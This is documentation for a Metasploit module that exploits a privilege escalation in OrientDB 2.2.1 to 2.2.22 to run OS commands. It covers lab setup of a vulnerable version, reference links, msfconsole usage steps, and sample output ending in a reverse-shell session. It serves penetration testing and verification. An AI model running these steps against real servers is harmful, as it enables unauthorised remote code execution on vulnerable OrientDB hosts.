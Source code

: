 This module leverages a privilege escalation on OrientDB to execute unsandboxed OS commands.

All versions from 2.2.1 up to 2.2.22 should be vulnerable.

The module is based on the public PoC found here: https://blogs.securiteam.com/index.php/archives/3318

## Vulnerable Application
OrientDB 2.2.1 <= 2.2.22

## Installation
Download a vulnerable OrientDB version here: http://orientdb.com/download-previous/
`$ wget http://orientdb.com/download.php?file=orientdb-community-2.2.20.zip&os=multi`
`$ unzip orientdb-community-2.2.20.zip`
`$ chmod 755 bin/*.sh`
`$ chmod -R 777 config`
`$ cd bin`
`$ ./server.sh`

## References for running OrientDB 
http://orientdb.com/docs/2.0/orientdb.wiki/Tutorial-Installation.html
http://orientdb.com/docs/2.0/orientdb.wiki/Tutorial-Run-the-server.html

## References for vulnerability
https://blogs.securiteam.com/index.php/archives/3318
http://www.palada.net/index.php/2017/07/13/news-2112/
https://github.com/orientechnologies/orientdb/wiki/OrientDB-2.2-Release-Notes#2223---july-11-2017

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/orientdb_exec`
- [ ]  `set rhost <RHOST>`
- [ ]  `set target <TARGET_NUMBER>`
- [ ]  `set workspace <WORKSPACE>`
- [ ]  `check`
- [ ] **Verify** if the OrientDB instance is vulnerable
- [ ]  `run`
- [ ] **Verify** you get a session

## Example Output
`[LHOST:127.0.0.1][Workspace:default][Jobs:0][Sessions:0][/Users/vibrio] exploit(orientdb_exec) > run`
`[*] [2017.07.18-15:55:47] Started reverse TCP handler on 127.0.0.1:37331`
`[*] [2017.07.18-15:55:49] 127.0.0.1:2480 - Sending payload...`
`[*] Command shell session 1 opened (127.0.0.1:37331 -> 127.0.0.1:46594) at 2017-07-18 15:55:49 +0100`

